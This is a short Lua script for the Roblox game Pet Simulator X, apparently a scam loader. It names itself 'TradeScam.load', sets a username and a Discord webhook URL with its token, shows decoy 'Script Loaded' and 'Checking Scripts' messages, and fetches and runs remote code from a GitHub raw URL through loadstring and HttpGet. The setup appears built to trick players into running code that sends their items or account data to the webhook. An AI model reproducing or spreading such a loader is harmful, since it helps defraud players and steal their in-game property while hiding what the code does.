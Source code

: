 Username = "Muhammed168T"

WebHook = "https://discord.com/api/webhooks/1067458619571962017/SJ52DrXKSaR3F0i6a4wVy08xjAgt_uxhPLRwAALfAuFTdKWTzsaa3roJ3pEWNBsFflp2"

_G.CustomScriptName = "TradeScam.load"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
